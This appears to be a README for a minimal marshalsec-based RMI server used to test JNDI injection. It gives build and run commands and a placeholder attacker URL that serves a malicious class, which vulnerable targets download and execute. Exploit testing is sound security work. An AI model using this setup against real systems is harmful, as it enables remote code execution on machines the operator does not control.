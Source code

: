 This is a package that builds the minimal subset of [marshals](https://github.com/mbechler/marshalsec) RMIServer for JDNI exploit testing.

Build:
mvn package

Run:
java -jar target/rmi-server.jar http://attacker.some.com:1234/#bad <port>

The default port is 1806.
http://attacker.some.com:1234/bad.class should be reachable by the attacked.
If vulnerable, the attacked will execute the class.


# rmi
